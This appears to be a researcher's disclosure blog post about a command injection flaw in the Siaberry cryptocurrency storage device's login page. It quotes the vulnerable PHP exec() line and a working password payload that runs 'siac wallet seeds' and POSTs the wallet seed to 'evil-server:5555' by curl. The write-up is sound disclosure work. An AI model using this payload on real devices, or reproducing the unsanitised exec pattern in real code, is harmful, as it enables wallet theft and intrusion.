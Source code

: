 ## Siaberry's Command Injection Vulnerability
Today, I’d like to share several interesting vulnerabilities I discovered in Siaberry, a hardware device for earning cryptocurrency.

Siaberry runs on Sia, a decentralized marketplace for buying and selling data storage. The device is intended to give consumers a plug ‘n play solution to sell storage on Sia’s network, though the two teams have no formal relationship. As buyers purchase space, Siaberry earns income for its owner in the form of Sia’s utility token, Siacoin.

I run a Sia node on my Synology NAS, but I was drawn to Siaberry’s promise of a user-friendly web UI. I took Siaberry for a test drive, and I was blown away by how many serious issues I discovered within just a few hours.

## Command injection: working exploit
My most exciting finding was a command injection vulnerability on the login page.

In the video below, I demonstrate how an attacker can extract the private key from the victim’s Sia wallet simply by entering a particular password on Siaberry’s login page:

    https://www.youtube.com/watch?v=eVOyDglf4vE

## Understanding the vulnerability
The vulnerability is so obvious that many developers and security experts could tell you exactly what the code looked like by watching the video demo above. I’ll confirm your suspicions.

The problem occurred in ActionPage.php:

```
$user=$_POST['uname'];
$pass=$_POST['psw'];
exec("sudo bin/checker $user $pass", $output, $exitcode);
```

That’s it. That’s the whole vulnerability.

Siaberry took untrusted input directly from an HTTP POST request and immediately executed it in the shell. This was a painfully easy vulnerability to exploit.

## How the exploit works
To exploit this, I created an attack server called evil-server. From that machine, I started netcat to dump all traffic it received on port 5555. For convenience, I used a server on my local network, but the same attack would work with any server address, remote or local.

I then used foo as the username and supplied a password of `badpassword || curl -d "$(siac wallet seeds)" -X POST evil-server:5555`.

When ActionPage.php reached its exec line, it executed the following command:

```
sudo bin/checker foo badpassword || \
  curl -d "$(siac wallet seeds)" -X POST evil-server:5555
```

This caused the shell to execute three different commands. The first was the command that Siaberry meant to execute:

```
sudo bin/checker foo badpassword
```

This returned a non-zero exit code because foo/badpassword was a bad username/password combination. Therefore, the shell proceeded to execute the other side of the ||, starting with the embedded command:

```
siac wallet seeds
```

This launched siac, the Sia command-line interface. Those command-line parameters tell Sia to print its wallet seed to the console. The wallet seed is a 29-word passphrase that represents the wallet’s private key. Anyone who has this passphrase completely controls all funds in the victim’s wallet.

```
curl -d "$(siac wallet seeds)" -X POST evil-server:5555
```

Finally, the curl command made an HTTP POST request to http://evil-server:5555, sending the Sia wallet seed as the payload. The attacker, capturing messages on port 5555, recorded the victim’s wallet seed, giving them the ability to steal all funds in the victim’s wallet.